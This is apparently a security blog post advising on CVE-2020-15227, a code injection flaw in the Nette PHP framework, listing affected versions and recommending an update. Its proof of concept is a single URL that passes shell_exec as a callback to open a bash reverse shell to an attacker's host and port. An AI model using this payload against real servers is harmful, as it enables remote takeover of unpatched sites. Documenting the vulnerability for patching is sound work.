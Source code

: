 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Nette Framework: CVE-2020-15227"
date:   2020-10-16 00:15:00 +1000
categories:
  - Web Application Pentest
  - CVE
tags:
  - CVE-2020-15227
  - RCE
  - PHP
---
```


# Nette Framework:
Nette Framework is an open-source framework for creating web applications in PHP 5 and 7. It supports AJAX, DRY, KISS, MVC and code reusability. Original author of the framework is David Grudl, but further development is now maintained by the Nette Foundation organization. Nette is a free software released under both[2] the New BSD license and the GNU GPL version 2 or 3.

# Issue Description:
Packages nette/application versions prior to 2.2.10, 2.3.14, 2.4.16, 3.0.6 and nette/nette versions prior to 2.0.19 and 2.1.13 are vulnerable to an code injection attack by passing specially formed parameters to URL that may possibly leading to RCE.

Thanks to Cyku Hong

# Proof of Concept:
{% highlight %}
/nette.micro?callback=shell_exec&cmd=bash%20-i%20>&%20/dev/tcp/'+lhost+'/'+lport+'0>&1
{% endhighlight %}

# Impact:

Code injection, possible remote code execution.

# Recommendation:

Update Nette Framework to the latest version.

